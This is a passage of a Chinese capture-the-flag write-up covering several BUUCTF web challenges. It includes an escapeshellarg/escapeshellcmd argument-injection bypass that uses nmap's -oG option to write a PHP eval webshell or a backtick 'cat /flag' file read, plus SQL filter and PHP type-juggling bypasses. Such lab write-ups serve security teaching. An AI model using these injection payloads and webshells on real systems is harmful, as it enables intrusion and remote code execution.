 `127.0.0.1' -v -d a=1`
2. 由于escapeshellarg先对单引号转义，再用单引号将左右两部分括起来从而起到连接的作用。所以处理之后的效果如下：
`'127.0.0.1'\'' -v -d a=1'`
3. 经过escapeshellcmd针对第二步处理之后的参数中的\以及a=1'中的单引号进行处理转义之后的效果如下所示：
`'127.0.0.1'\\'' -v -d a=1\'`
由于中间的\\\被解释为\而不再是转义字符
4. 所以这个payload可以简化为`curl 127.0.0.1\ -v -d a=1'`，即向127.0.0.1\发起请求，POST 数据为a=1'。

由于nmap有一个参数-oG可以实现将命令和结果写到文件
### 方法一：写一句话
`?host='<?php @eval($_POST["pass"]); ?> -oG 1.php '`
![](https://img-blog.csdnimg.cn/20200316222151997.png)
使用蚁剑，地址为：`http://6945240f-3948-46b6-8a76-aa23b97ab20f.node3.buuoj.cn/620da91054ae45f37c80a6fd6b2d47df/1.php`
即可得到flag
![](https://img-blog.csdnimg.cn/20200316223311415.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
### 方法二：直接cat /flag
因为单引号被过滤了，我们使用反引号cat /flag
```php
?host=' <?php echo `cat /flag`;?> -oG 1.php '
```
![](https://img-blog.csdnimg.cn/20200316223729732.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
访问即可得到flag
![](https://img-blog.csdnimg.cn/20200316223845193.png)
注意最后一个'前有空格
参考：
[谈谈escapeshellarg参数绕过和注入的问题](http://www.lmxspace.com/2018/07/16/%E8%B0%88%E8%B0%88escapeshellarg%E5%8F%82%E6%95%B0%E7%BB%95%E8%BF%87%E5%92%8C%E6%B3%A8%E5%85%A5%E7%9A%84%E9%97%AE%E9%A2%98/)
[PHP escapeshellarg()+escapeshellcmd() 之殇](https://paper.seebug.org/164/)
[[BUUCTF 2018]Online Tool](https://www.cnblogs.com/Cl0ud/p/12192230.html)

## [极客大挑战 2019]BabySQL
关键函数被过滤了，可以双写绕过
![](https://img-blog.csdnimg.cn/20200316224520246.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
之后联合查询即可
## [极客大挑战 2019]BuyFlag
在pay.php查看源码得到一串代码
```php
~~~post money and password~~~
if (isset($_POST['password'])) {
	$password = $_POST['password'];
	if (is_numeric($password)) {
		echo "password can't be number</br>";
	}elseif ($password == 404) {
		echo "Password Right!</br>";
	}
}
```
抓包看一下，修改代码可得
![](https://img-blog.csdnimg.cn/202003162314568.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
然后我们要money为100000000，但输入超过的值会返回太长，猜测判断是通过strcmp函数，可以构造数组
![](https://img-blog.csdnimg.cn/2020031623173193.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
或者可以科学计数法来使价钱成立
![](https://img-blog.csdnimg.cn/2020031623201849.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
## [SUCTF 2019]Pythonginx
**CVE-2019-9636：urlsplit不处理NFKC标准化**